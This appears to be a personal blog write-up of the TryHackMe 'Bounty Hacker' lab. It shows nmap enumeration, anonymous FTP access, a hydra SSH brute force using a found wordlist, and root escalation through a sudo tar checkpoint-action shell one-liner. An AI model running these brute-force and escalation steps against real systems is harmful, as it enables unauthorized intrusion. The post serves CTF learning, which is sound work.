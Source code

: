 +++ 
categories = ["Hugo"] 
date = "2020-08-27" 
description = "Bounty Hacker - TryHackMe Writeup"

featuredalt = "" 
featuredpath = "date" 
linktitle = "" 
title = "Bounty Hacker - TryHackMe Writeup" 
slug = "Bounty Hacker - TryHackMe Writeup" 
type = "post" 
+++




<img src="https://github.com/Hdekisugi/lifeofdekisugi/blob/master/static/image/bounty_hacker.jpeg"
     alt="Bounty Hacker - TryHackMe">


Welcome to my WriteUp. Ok So our journy starts from question 3 but before every question we need to enumerate the mechine. So Let's do it with **nmap**

## Service enumeration

```
# nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-27 02:25 +06
Nmap scan report for 10.10.196.2
Host is up (0.31s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.67.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.50 seconds

```

Here we have port 21,22,80 open and we can see ftp have anonymous login allowed so let's do it.
```
Username : Anonymous
Password : Anonymous # In this mechine we don't need password to login.
```

## FTP enumeration

```
# ftp $ip
Connected to 10.10.196.2.
220 (vsFTPd 3.0.3)
Name (10.10.196.2:root): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```

Here we have 2 text file. Grab it on our computer using mget *
If You want to download file one by one then you can simply use **get filename.ext**

```
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (350.0884 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (220.6188 kB/s)
ftp> exit
221 Goodbye.
```
Ok So now we have two text file. From this two we will get our 3rd question answer.
If we look at question number 4 it say's **What service can you bruteforce with the text file found?** The text file locks.txt looks like a dictionary file we can bruteforce with this file on ssh using hydra.


## Bruteforce

**-l (Username)**
**-P (Password file)**

```
hydra -l lin -P ./locks.txt ssh://$ip 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-27 02:31:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.196.2:22/
[22][ssh] host: $ip   login: lin   password: Re***4g***yn***at*
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-28 02:32:03

```

Now we have ssh username and password so let's login on ssh.

```
# ssh lin@$ip

lin@10.10.196.2's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)


lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{C****_SyN******}
```

Here we got our **User.txt**


## Privilege Escalation


Now we have to get root.txt

If you try :
```
lin@bountyhacker:~/Desktop$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```
So we have to get root access.
Start with ** sudo -l **
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```


We can run root using ** tar **
Now we need to find Root Escalation for tar. I always use gtfobins.github.io for this type of escalation.
If we search tar on GTFOBINS then we will found a line of code in **Sudo Section**
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

You need to copy this code and pest on your bountyhacker ssh shell

```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{8***Y_h****r}
```


**Congratulations** you just complete Bounty Hacker from TryHackMe.
Thank You and see you on next writeup.

















